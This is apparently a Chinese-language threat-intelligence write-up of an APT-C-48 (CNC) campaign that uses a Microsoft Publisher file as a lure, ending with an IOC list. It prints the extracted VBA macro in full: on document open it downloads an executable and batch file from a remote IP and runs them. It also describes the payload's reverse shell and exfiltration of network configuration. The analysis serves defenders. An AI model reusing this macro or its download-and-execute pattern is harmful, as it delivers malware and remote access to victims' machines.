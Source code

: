 ```yaml
---
title: APT-C-48-CNC组织攻击利用pub文件攻击活动分析
date: 2023-02-20 14:10:47
tags:
categories:
- APT研究
- APT-C-48(CNC)
---
```




# 载荷投递

是pub文件 进去alt+11

宏病毒拉出来

```
Private WithEvents PubApp As Publisher.Application
Sub DownloadFile()
Dim myURL As String
myURL = "http://194.33.40.177/webdav/taskhost.exe"
username = Environ("username") 

Dim WinHttpReq As Object
Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
WinHttpReq.Open "GET", myURL, False
WinHttpReq.send
If WinHttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write WinHttpReq.responseBody
    oStream.SaveToFile "C:\Users\" + username + "\Videos\taskhost.exe", 2 ' 1 = no overwrite, 2 = overwrite
    oStream.Close
End If
End Sub
Sub DownloadBat()
Dim myURL As String
username = Environ("username")
myURL = "http://194.33.40.177/webdav/status.txt"
Dim WinHttpReq As Object
Set WinHttpReq = CreateObject("Microsoft.XMLHTTP")
WinHttpReq.Open "GET", myURL, False
WinHttpReq.send
If WinHttpReq.Status = 200 Then
    Set oStream = CreateObject("ADODB.Stream")
    oStream.Open
    oStream.Type = 1
    oStream.Write WinHttpReq.responseBody
    oStream.SaveToFile "C:\Users\" + username + "\Videos\status.bat", 2 ' 1 = no overwrite, 2 = overwrite
    oStream.Close
End If
End Sub
Sub Exec()
Dim x As Variant
Dim Path As String
username = Environ("username")
Path = "C:\Users\" + username + "\Videos\status.bat"
x = Shell(Path, vbNormalFocus)
End Sub
Private Sub Document_Open()
 Set PubApp = Publisher.Application
 DownloadFile
 DownloadBat
 Exec
End Sub
```

# taskhost.exe



![](APT-C-48-CNC组织攻击利用pub文件攻击活动分析/1.png)

测试 mail.63.cn测试连通性

然后开始base64解密

![](APT-C-48-CNC组织攻击利用pub文件攻击活动分析/2.png)

三个密钥解密三次

![](APT-C-48-CNC组织攻击利用pub文件攻击活动分析/3.png)



ipconfig 获取网络配置其上传至服务器，并删除该文件。

随后通过创建创建管道向远程服务器提供反向shell。

![](APT-C-48-CNC组织攻击利用pub文件攻击活动分析/4.png)

正如我们在《猎天行动》中提到的，CNC组织部分开发人员在开发环境中集成了vcpkg。而这一特点在本次样本中得到了保留，并且本次攻击活动中使用的路径也与其以往使用的路径保持高度一致。



在南亚地区的APT攻击活动中，攻击者往往喜欢使用各类文档文件结合社会工程学诱使受害者运行恶意代码。而在本次攻击活动中虽然同样也采用了这一形式，但值得注意的是，与以往我们在文档文件中常见的doc、xls、rtf、docx、xlsm等等格式不同，本次使用的是pub文档。pub文档作为Microsoft Office PUBlisher 建立的电子出版物，在我们日常生活中并不常见，往往只有少部分人群才会接触。

本次攻击活动中选择这一文档类型作为载荷恰恰体现了攻击者在载荷上多元化的一种趋势，同样也是攻击者在除了鱼叉邮件、文档文件内容之外的又一种针对性攻击的体现。

# ioc

**附录 IOC**

**MD5:**



189e543a95ed791fc5a81a3048128703

5511b7b0b53c67d55019d13aaaf1ed15



**URL：**

http://194.33.40.177/webdav/taskhost.exe

http://194.33.40.177/webdav/status.txt



**IP：**

194.33.40.177



**PBD：**

C:\Users\user\source\repos\taskhost\x64\Release\taskhost.pdb

